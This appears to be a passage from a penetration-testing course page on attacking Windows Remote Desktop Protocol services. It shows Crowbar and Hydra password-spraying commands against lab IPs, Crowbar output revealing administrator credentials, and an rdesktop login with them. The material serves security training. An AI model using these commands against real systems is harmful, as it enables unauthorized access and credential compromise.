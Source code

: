 [Remote Desktop Protocol (RDP)](https://en.wikipedia.org/wiki/Remote_Desktop_Protocol) is a proprietary protocol developed by Microsoft which provides a user with a graphical interface to connect to another computer over a network connection. It is also one of the most popular administration tools, allowing system administrators to centrally control their remote systems with the same functionality as if they were on-site. In addition, managed service providers (MSPs) often use the tool to manage hundreds of customer networks and systems.

By default RDP uses port `TCP/3389`. 

## Misconfigurations
Since RDP takes user credentials for authentication, one common attack vector against the RDP protocol is password guessing. Although it is not common, we could find an RDP service without a password if there is a misconfiguration.

One caveat on password guessing against Windows instances is that you should consider the client's password policy. In many cases, a user account will be locked or disabled after a certain number of failed login attempts. In this case, we can perform a specific password guessing technique called `Password Spraying`. This technique works by attempting a single password for many usernames before trying another password, being careful to avoid account lockout.

Using the [Crowbar](https://github.com/galkan/crowbar) tool, we can perform a password spraying attack against the RDP service. As an example below, the password `password123` will be tested against a list of usernames in the `usernames.txt` file. The attack found the valid credentials as `administrator` : `password123` on the target RDP host.


```shell
gdxqpardo@htb[/htb]# crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

2022-04-07 15:35:50 START
2022-04-07 15:35:50 Crowbar v0.4.1
2022-04-07 15:35:50 Trying 192.168.220.142:3389
2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrator:password123
2022-04-07 15:35:52 STOP
```


We can also use `Hydra` to perform an RDP password spray attack.

#### Hydra - RDP Password Spraying

```shell
gdxqpardo@htb[/htb]# hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

We can RDP into the target using the `rdesktop` client or `xfreerdp`with valid credentials.

#### RDP Login

```shell
gdxqpardo@htb[/htb]# rdesktop -u admin -p password123 192.168.2.143
```


## Protocol Specific Attacks
